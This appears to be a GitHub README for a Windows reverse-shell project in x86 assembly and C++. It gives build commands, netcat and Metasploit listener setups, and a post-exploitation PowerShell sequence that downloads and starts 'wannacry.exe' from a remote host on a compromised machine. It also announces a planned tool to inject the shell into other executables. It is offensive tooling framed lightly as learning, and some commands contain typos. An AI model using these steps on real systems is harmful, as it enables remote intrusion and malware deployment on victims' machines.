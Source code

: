 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

### Tree

* reverse_bind_cpp 
* reverse_bin_cpp_v2
  - try to catch ipv4 address of ethernet card
* Bind reverse written in object
* Reverse cpp ( reverse shell cpp )
* Reverse cpp written in object
* ASM Bind reverse shell
  - not terminated
* ASM v1 ( reverse shell asm )
  - Replace all address offsets of called functions
* ASM v2 ( reverse shell asm )
  - To do remote all TEB/PEB, remove all bytes null
  - Ligne 78 v2 : LoadLibraryA replace it by your own offset
  - Ligne 79 v2 : GetProcAddress replace it by your own offset
  - Ligne 193 v2: SOKADDR_IN set you own port and IP address
  
### Architecture

Win32 plateform

  - [x] XP 
  - [x] vista
  - [x] 7
  - [x] 10 - For all assembly codes Windows Defender detected that program is bad for himself 

### Soon

\[\*\] coding a lil program :
  * Open biary file exe
  * read PE
  * find EP
  * IAT import ws2_32.dll
  * Inject Reverse_shell
  * close binary file Exe
  

## :two: Compilation 

### Build ASM x86

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
### Build C++

Download Devcpp on windows plateform :

  - Project include library : **MinGW64/x86_64-w64-mingw32/lib32/libws2_32.lib**
  - Add **lib** directory to your project.
  - Build it.
  - execv.
  
## :three: Shell Connection 

### Reverse Tcp netcat

```
$netcat -v -l -p 4444
```

### Reverse Tcp msf

```
$ msfconsole
$ use exploit/multi/handler
$ show paylaods
$ set payloads generic/reverse_tcp
$ set RHOST [ip]
$ set LPORT [PORT]
$ exploit
```

### Reverse Bind Tcp netcat

```
$netcat -v victim_ip 4444
```
## :four: Example

### Win >= 7 Bind reverse shell \[ powershell.exe \]

<img src="https://zupimages.net/up/19/01/wq32.png">

After get a reverse powershell, you can download and lauch somes files with this trick, just using all power of Windows shell with wget command.
 
```
[ powershell command ]
>dir env:\
> $url=http://192.168.0.2/wannacry.exe
> wget $url -outfile [ PATH ]
> cmd
> start File
```

### Reverse Tcp With CPP \[ cmd.exe \] 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp \[ cmd.exe \]

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


